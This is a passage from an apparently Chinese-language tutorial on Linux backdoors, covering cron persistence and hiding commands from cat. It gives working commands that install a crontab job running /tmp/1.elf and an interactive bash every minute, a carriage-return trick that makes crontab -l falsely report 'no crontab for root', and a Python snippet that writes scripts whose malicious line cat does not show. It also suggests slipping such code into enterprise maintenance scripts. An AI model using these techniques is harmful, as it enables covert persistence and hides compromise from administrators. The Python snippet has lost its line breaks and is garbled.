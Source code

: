 ![](https://minioapi.nerubian.cn/image/20250120141400212.png)

![](https://minioapi.nerubian.cn/image/20250120141411134.png)

检测：查看shell的配置文件或者 alias 命令即可发现，例如 ~/.bashrc 或 ~/.zshrc 文件查看是否有恶意的 alias

### 0x05 Cron后门

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

cron表达式在线生成：[http://qqe2.com/cron](http://qqe2.com/cron)

#### 5.1 cron隐藏

`(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab -`

![](https://minioapi.nerubian.cn/image/20250120141415245.png)

这样执行会在crontab列表里出现，如果是如上执行的话，管理员执行crontab -l就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示"no crontab for root"。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示"no crontab for root":

```sh
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```

![](https://minioapi.nerubian.cn/image/20250120141420536.png)

实际上是他将 cron 文件写到文件中,而 crontab -l 就是列出了该文件的内容:



`/var/spool/cron/crontabs/root`

通常 cat 是看不到这个的，只能利用 less、vim 或者 cat -A 看到，这也是利用了cat的一个缺陷，在下一节会主要讲这个。

![](https://minioapi.nerubian.cn/image/20250120141423710.png)



`#这几个路径都可以存放cron执行脚本,对应的时间不同 /etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/` 

### 0x06 Cat隐藏

刚刚在cron里面提到了cat的一个缺陷，可以利用这个缺陷隐藏恶意命令在一些脚本中：这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用cat的缺陷还可以使管理员无法发现脚本被做手脚。

cat其实默认使用是支持一些比如 \r 回车符 \n 换行符 \f 换页符、也就是这些符号导致的能够隐藏命令。

使用python生成带有换行符的内容sh：

```sh
cmd_h = "echo 'You forgot to check `cat -A`!' > oops" # hidden cmd_v = "echo 'Hello world!'"                         # visible  with open("test.sh", "w") as f: output = "#!/bin/sh\n" output += cmd_h + ";" + cmd_v + " #\r" + cmd_v + " " * (len(cmd_h) + 3) + "\n" f.write(output)
```
